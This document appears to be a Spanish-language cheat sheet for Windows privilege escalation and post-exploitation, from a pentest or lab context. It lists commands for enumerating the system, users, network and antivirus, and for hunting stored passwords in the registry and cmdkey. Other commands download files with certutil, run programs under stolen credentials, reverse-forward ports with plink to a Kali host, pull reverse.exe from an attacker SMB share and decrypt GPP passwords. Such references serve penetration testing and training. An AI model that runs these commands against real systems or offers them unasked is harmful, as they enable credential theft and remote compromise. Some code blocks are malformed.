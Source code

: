 ### Enumeración del sistema[](#enumeracion-del-sistema)

```python
	systeminfo
	
	systeminfo | findstr /B /C: "OS Name" /C: "OS Version" /C: "System Type"
	
	wmic qfe get Caption, Description, HotFixID, InstalledOn #Muestra actualizaciones del sistema
	
	wmic logicaldisk get caption, description, providername #Muestra discos
```
### Enumeración de usuarios[](#enumeracion-de-usuarios)

```python
whoami

whoami /priv

whoami /groups

net user

net user <USUARIO>

net localgroup

net localgroup <GRUPO>
```
### Enumeración de red[](#enumeracion-de-red)
```python
ip a

ifconfig

route

ip route

aipconfig

ipconfig /all #Información extendida

arp -a

route print

netstat -ano
```
### Búsqueda de archivos[](#busqueda-de-archivos)
```python
#CMD

where /r c:\ file.txt

#Powershell

Get-ChildItem -Path C:\Myfolder -Filter file.txt -Recurs
```
### Búsqueda de credenciales[](#busqueda-de-credenciales)
```pyth
```
#Valores en el registro que contengan la string “password”

reg query HKLM /f password /t REG_SZ /s

#Listar autologon passwords

reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"

#Lista contraseñas guardadas

cmdkey /list

[

![](https://github.com/fluidicon.png)

PayloadsAllTheThings/Windows - Privilege Escalation.md at master · swisskyrepo/PayloadsAllTheThings

GitHub





](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---looting-for-passwords)

#### 

Enumeración de antivirus[](#enumeracion-de-antivirus)

sc query windefend

sc queryex type= service #Lista servicios activos

netsh advfirewall firewall dump

#### 

Enumeración con herramientas automáticas[](#enumeracion-con-herramientas-automaticas)

[

![](https://github.com/fluidicon.png)

Release Release refs/heads/master 20230108 · carlospolop/PEASS-ng

GitHub





](https://github.com/carlospolop/PEASS-ng/releases/tag/20230108)

[

![](https://github.com/fluidicon.png)

GitHub - bitsadmin/wesng: Windows Exploit Suggester - Next Generation

GitHub





](https://github.com/bitsadmin/wesng)

### 

Funciones básicas[](#funciones-basicas)

#### 

Descarga de archivos[](#descarga-de-archivos)

certutil.exe -urlcache -f <URL> <OUTPUT_FILE>

#### 

Comprobación de permisos sobre un archivo[](#comprobacion-de-permisos-sobre-un-archivo)

accesschk.exe /accepteula -quvw <user> <Ruta absoluta del archivo>

#### 

Ejecución de un programa como otro usuario en Powershell[](#ejecucion-de-un-programa-como-otro-usuario-en-powershell)

powershell -c "$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force; $creds = New-Object System.Management.Automation.PSCredential('<USER>', $password);Start-Process -FilePath "<PROGRAM.EXE>" -Credential $creds"

#### 

Windows Port Forwarding[](#windows-port-forwarding)

plink.exe -l <KALI_USER> -pw <KALI_USER_PASS> -R <KALI_PORT>:<LOCAL_IP/LOCALHOST_IP>:<LOCAL_PORT> <KALI_IP>

#### 

Transferencia de archivos mediante smb[](#transferencia-de-archivos-mediante-smb)

sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali . #Kali

copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe #Windows

#### 

Desencriptado GPP[](#desencriptado-gpp)

gpp-decrypt "<hash>"
